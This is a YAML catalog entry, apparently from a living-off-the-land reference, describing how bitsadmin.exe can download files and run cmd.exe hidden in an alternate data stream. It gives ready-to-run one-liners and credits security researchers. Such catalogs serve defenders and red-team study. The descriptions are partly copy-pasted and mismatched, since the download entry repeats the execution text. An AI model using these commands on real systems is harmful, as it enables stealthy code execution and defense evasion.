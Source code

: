 ---
Name: Bitsadmin.exe
Description: Execute, Download, Copy, Read ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: |
          bitsadmin /create 1
          bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe
          bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\1.txt:cmd.exe NULL
          bitsadmin /RESUME 1
          bitsadmin /complete 1
  - Description: Create a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job.
  - Command: |
          bitsadmin /create 1
          bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe
          bitsadmin /RESUME 1
          bitsadmin /complete 1
    Description: Create a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job.
  - Command: bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset
    Description: One-liner version that creates a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job.
  - Command: bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\1.txt:cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset
    Description: One-Liner version that creates a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job.
Full Path:
  - c:\Windows\System32\bitsadmin.exe
  - c:\Windows\SysWOW64\bitsadmin.exe
Code Sample: []
Detection: []
Resources:
  - https://www.slideshare.net/chrisgates/windows-attacks-at-is-the-new-black-26672679
    - Slide 53
  - https://www.youtube.com/watch?v=_8xJaaQlpBo
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Notes: Thanks to Rob Fuller - @mubix , Chris Gates - @carnal0wnage, Oddvar Moe - @oddvarmoe

